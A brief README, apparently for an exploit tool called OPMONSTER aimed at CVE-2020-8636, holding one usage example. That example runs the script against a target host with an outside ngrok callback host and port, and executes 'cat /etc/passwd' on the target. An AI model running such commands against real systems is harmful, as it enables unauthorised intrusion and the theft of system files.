 # OPMONSTER
### CVE-2020-8636 by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"
 ```
